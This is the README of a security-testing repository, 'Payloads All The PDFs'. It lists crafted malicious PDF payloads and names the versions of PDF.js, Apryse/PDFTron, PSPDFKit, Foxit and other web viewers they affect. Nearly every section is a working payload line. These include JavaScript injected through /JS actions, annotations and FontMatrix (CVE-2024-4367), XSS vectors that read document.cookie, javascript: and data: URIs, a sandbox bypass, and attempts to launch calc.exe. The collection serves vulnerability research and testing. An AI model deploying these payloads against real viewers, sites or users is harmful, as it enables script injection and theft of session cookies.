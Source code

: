 # Payloads All The PDFs

<a href="https://twitter.com/intent/follow?screen_name=evaristegal0is"><img src="https://img.shields.io/twitter/follow/evaristegal0is?style=social" alt="Follow @evaristegal0is"></a>

A list of crafted malicious PDF files to test the security of PDF readers and tools.</br>

**Write-Up:** [JavaScript-based PDF Viewers, Cross Site Scripting, and PDF files](https://gubello.me/blog/pdf-viewers-xss-and-pdf-files/)

### Vulnerabilities found

- [Foxit PDF SDK For Web](https://www.npmjs.com/package/@foxitsoftware/foxit-pdf-sdk-for-web-library) 7.5.0 (~600 weekly downloads)
- [PDFTron WebViewer](https://www.npmjs.com/package/@pdftron/webviewer) 7.2.0, 7.3.1, 8.6.1, 10.1.0, 10.7.2, 10.12.0 (~87k weekly downloads)
- [PSPDFKit for Web](https://www.npmjs.com/package/pspdfkit) 2021.4.1 (~13k weekly downloads)
- [Syncfusion ej2-pdfviewer](https://www.npmjs.com/package/@syncfusion/ej2-pdfviewer) 20.2.40 (~6.8k weekly downloads)
- [React PDF viewer](https://www.npmjs.com/package/@react-pdf-viewer/core) 3.6.0 (~34k weekly downloads)
- [PDF.js](https://www.npmjs.com/package/pdfjs-dist) 4.1.392 (~2 million weekly downloads)

## Payloads list

### payload1.pdf

**Line 31**. Understand if [Acrobat Javascript APIs](https://www.adobe.com/content/dam/acom/en/devnet/acrobat/pdfs/AcrobatDC_js_api_reference.pdf) are supported.
```
/JS (app.alert\(1\); Object.getPrototypeOf(function*(){}).constructor = null; ((function*(){}).constructor("document.write('<script>confirm(document.cookie);</script><iframe src=https://14.rs>');"))().next();)
```

**Line 69**. Try to run arbitrary Javascript abusing the data URI scheme.
```
/URI (data:text/html,<script>alert\(2\);</script>)
```

**Line 177**. Try to inject Javascript code using annotations.
```
<</Type /Annot /Rect [284.7745656638 581.6814031126 308.7745656638 605.6814031126 ] /Subtype /Text /M (D:20210402013803+02'00) /C [1 1 0 ] /Popup 15 0 R /T (\">'><details open ontoggle=confirm\(3\)>) /P 6 0 R /Contents (��^@"^@>^@'^@>^@<^@d^@e^@t^@a^@i^@l^@s^@ ^@o^@p^@e^@n^@ ^@o^@n^@t^@o^@g^@g^@l^@e^@=^@c^@o^@n^@f^@i^@r^@m^@\(^@'^@X^@S^@S^@'^@\)^@>) >>
```

### payload2.pdf

**Line 69**. Try to run arbitrary Javascript abusing the data URI scheme.
```
/URI (\">'><details open ontoggle=confirm\(2\)>)
```

### payload3.pdf

**Line 31**. Understand if the PDF reader or tool runs arbitrary Javascript bypassing the Acrobat APIs.
```
/JS (app.alert\(1\); confirm\(2\); prompt\(document.cookie\); document.write\("<iframe src='https://14.rs'>"\);)
```

**Line 69**. Try to run remote commands on Windows.
```
/URI (file:///C:/Windows/system32/calc.exe)
```

### payload4.pdf

**Line 31**. Try to run remote commands on Windows by abusing Acrobat Javascript APIs.
```
/JS (app.alert\(1\); app.openDoc("/C/Windows/System32/calc.exe");)
```

**Line 69**. Try to run remote commands on Windows.
```
 /URI (START C:/\Windows/\system32/\calc.exe)
```

### payload5.pdf

**Line 31**. Try to run remote commands on Windows by abusing Acrobat Javascript APIs.
```
/JS (app.alert\(1\); app.launchURL\("START C:/\Windows/\system32/\calc.exe", true\); app.launchURL\("javascript:confirm\(3\);", true\);)
```

**Line 69**. Try to run arbitrary Javascript abusing the data URI scheme.
```
 /URI (javascript:confirm\(2\);)
```

### payload6.pdf

**Line 31**. Try to run remote commands on Windows by abusing Acrobat Javascript APIs.
```
 /JS (app.alert\(1\); app.launchURL\("/C/Windows/system32/calc.exe", true\); app.launchURL\("'><details open ontoggle=confirm\(3\);", true\);)
```

### payload7.pdf

**Line 50**. Try to run arbitrary Javascript injected via annotation. It works on vulnerable Apryse PDF Webviewer versions.
```
/V (">'></div><details/open/ontoggle=confirm(document.cookie)></details>)
```

### payload8.pdf

**Line 19**. Try to run arbitrary Javascript injected via `FontMatrix`. It works on vulnerable `PDF.js` versions. Proof-of-Concept created by [Rob Wu and Thomas Rinsma](https://codeanlabs.com/blog/research/cve-2024-4367-arbitrary-js-execution-in-pdf-js/).
```
<< /BaseFont /SNCSTG+CMBX12 /FontDescriptor 6 0 R /FontMatrix [ 1 2 3 4 5 (1\); alert\('origin: '+window.origin+', pdf url: '+\(window.PDFViewerApplication?window.PDFViewerApplication.url:document.URL\)) ] /Subtype /Type1 /Type /Font >>
```

### payload9.pdf

**Line 32**. Javascript sandbox bypass in Apryse WebViewer SDK (10.9.x - 10.12.0) to run arbitrary embedded Javascript in PDFs.
```
/JS (app.alert\(1\); console.println\(delete window\); console.println\(delete confirm\); console.println\(delete document\); window.confirm\(document.cookie\);)
```

___

![Hack the planet](img/hack_the_planet.gif)

If you want to support me you can offer me a coffee ☕</br></br>
<a href="https://www.buymeacoffee.com/gubello" target="_blank"><img src="https://bmc-cdn.nyc3.digitaloceanspaces.com/BMC-button-images/custom_images/orange_img.png" alt="Buy Me A Coffee" style="height: auto !important;width: auto !important;" ></a>
